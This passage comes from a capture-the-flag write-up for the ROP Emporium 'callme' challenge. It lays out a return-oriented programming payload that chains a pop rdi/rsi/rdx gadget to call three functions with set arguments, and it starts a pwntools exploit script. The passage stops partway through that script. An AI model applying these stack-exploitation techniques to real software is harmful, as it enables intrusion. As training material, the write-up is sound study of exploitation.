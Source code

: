 the gadget address is `0x0040093c`
so:
`pop_rdi_rsi_rdx_ret = 0x0040093c`

final payload will look like:

`Pattern + pop_rdi_rsi_rdx_ret + arg_1 (0xdeadbeefdeadbeef) + arg_2 (0xcafebabecafebabe) + arg_3 (0xd00df00dd00df00d) + callme_one_plt + pop_rdi_rsi_rdx_ret + arg_1 (0xdeadbeefdeadbeef) + arg_2 (0xcafebabecafebabe) + arg_3 (0xd00df00dd00df00d) + callme_two_plt + pop_rdi_rsi_rdx_ret + arg_1 (0xdeadbeefdeadbeef) + arg_2 (0xcafebabecafebabe) + arg_3 (0xd00df00dd00df00d) + callme_three_plt`

we can do:
```
args = arg_1 (0xdeadbeefdeadbeef) + arg_2 (0xcafebabecafebabe) + arg_3 (0xd00df00dd00df00d)
payload = Pattern + pop_rdi_rsi_rdx_ret + args + callme_one_plt + pop_rdi_rsi_rdx_ret + args + callme_two_plt + pop_rdi_rsi_rdx_ret + args + callme_three_plt
```

Now let's exploit.

## Writing exploit

in a file called [exploit.py](https://github.com/l0x539/CTFs-writeups/blob/master/ropemporium/callme/exploit.py)

again, using [pwntools](http://docs.pwntools.com/en/stable/) on python3.

* Imports:

```python3
from pwn import cyclic, p64, process, ELF, ROP
```

* Running file

```python3
_FILE = "./callme"
p = process(_FILE)
```

* Loading binary file to get addresses:

```python3
binary = ELF(_FILE)
```

* using ROP class from pwntools

```python3
rop = ROP(binary)

pop_rdi_rsi_rdx_ret = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0] # or 0x0040093c
# or
'''
pop_rdi_rsi_rdx_ret = 0x0040093c
'''
```
* preventing repetition:
